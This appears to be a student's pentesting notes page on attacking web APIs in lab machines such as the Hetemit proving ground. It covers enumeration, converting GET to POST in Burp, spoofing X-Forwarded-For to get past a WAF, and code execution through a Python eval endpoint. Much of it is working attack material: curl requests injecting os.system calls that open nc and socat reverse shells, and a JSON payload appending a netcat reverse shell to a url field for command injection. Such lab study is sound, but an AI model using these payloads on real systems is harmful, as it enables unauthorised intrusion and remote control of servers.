 Before proceeding, enumerate APIs as you would any other web app first
	directory brute force, fuzz, etc...
#### Authenticate 
(see [[Mentor]])
	if we find auth tokens, we can potentially access pages previously denied by adding a `Authorization: <token>` header in the Burp request

If you receive Method not allowed errors, consider using different requests like POST, GET, etc...

See hetemit proving ground lab as an example

#### curl Method to POST
Send curl POSTs to see what we can do
	`curl -X POST --data "code=2*2" http://192.168.243.117:50000/verify`
		4
	looks like it executes code
	this is an example. If we tested the email field instead, we could try `--data email=test@test.com`

Test for command execution
If we know it is a python server, we can try os...
	`curl -X POST --data "code=os" http://192.168.243.117:50000/verify`
		<module 'os' from '/usr/lib64/python3.6/os.py'> 
	NOTE: other servers we can try different commands

Reverse shell
	`curl -X POST --data "code=os.system('nc <our_ip> <nc_listener> -e /bin/bash')" http://<ip>:<port>/<directory>
		we can try variants like /bin/sh, socat, etc
	another example:
	`curl -X POST --data "code=os.system('socat TCP:<our_ip>:<nc_listener> EXEC:sh')" http://<ip>:<port>/<directory>


#### Burp Method to Modify GET to POST Request

Intercept API page request

Modify GET to a POST request
	need to add these:
	`Content-Type: application/x-www-form-urlencoded
	`Content-Length = <should auto-update>`
		make sure this is updating from 0 or you may get errors
		![[Pasted image 20250512185446.png]]
		make sure this setting is enabled so Content-Length auto updates
	`<api_field>=<our_revshell_code>

Example of a json POST request:
```
POST /update HTTP/1.1
Host: 192.168.156.134:13337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 67
Content-Type: application/json

{
	"user":"admin", 
	"url":"http://192.168.45.219:22/update"
}

```

#### Bypass WAF via Spoofing Origin
Sometimes WAF will block access to API

Add this field to possibly bypass
```
X-Forwarded-For: 127.0.0.1
```

#### OS Command Injection

Assuming successful POSTs, we can attempt to append additional commands on the end of data fields we POST. This is largely dependent upon how the API behaves but is worth attempting.

Example
	**TRY MULTIPLE REVERSE SHELL ONE-LINERS** (including python)
```
POST /update HTTP/1.1
<SNIP>
Content-Length: 116
Content-Type: application/json

{
	"user":"clumsyadmin", 
	"url":"http://192.168.45.219:22/update.elf; nc 192.168.45.219 13337 -e /bin/bash"
}
```
Explanation
	Here we see "url" is used to get a file "update.elf"
	I have appended a rev shell with ;
	upon sending the POST request, both the file is got AS WELL AS A REV SHELL

#### GET vs POST

sometimes pages will reject a get request, but you can try a POST, PUT, etc

Example
	`curl -i -X POST http://192.168.199.99:33333/list-current-deployments

Length Required?
	just add it in the data field
	`curl -i -X POST  http://192.168.199.99:33333/list-current-deployments --data "Content-Length=5000"
